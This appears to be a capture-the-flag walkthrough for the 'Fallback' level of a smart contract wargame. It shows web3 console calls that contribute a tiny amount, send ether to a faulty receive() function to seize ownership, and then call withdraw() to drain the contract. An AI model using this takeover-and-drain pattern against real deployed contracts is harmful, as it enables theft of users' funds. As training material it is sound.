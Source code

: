 # Level 2: Fallback

## Level objectives:
1. Claim ownership of contract.
2. Drain contract.

## Steps:
- To claim ownership, I can either send eth to the `contribute()` function until I surpass 1000 * 1 Ether, or send eth to the contract's fallback function, triggering the faulty `receive()` function that sets `owner = msg.sender`.
- To send eth to the fallback function, `contribution[msg.sender] > 0`.
- So I first send minimal eth to the `contribute()` function, to get my name in the hat.
```sol
contract.contribute.sendTransaction({   
  from: "0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4",
  value: web3.utils.toWei('0.0000001', 'ether')
});
```
- Then send eth to the fallback function to claim ownership.
```sol
contract.sendTransaction({   
  from: "0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4",
  value: web3.utils.toWei('0.0000001', 'ether')
});
```
- Verified by calling `contract.owner()`.
- Now  I call the `withdraw()` function to take all the eth in the contract.
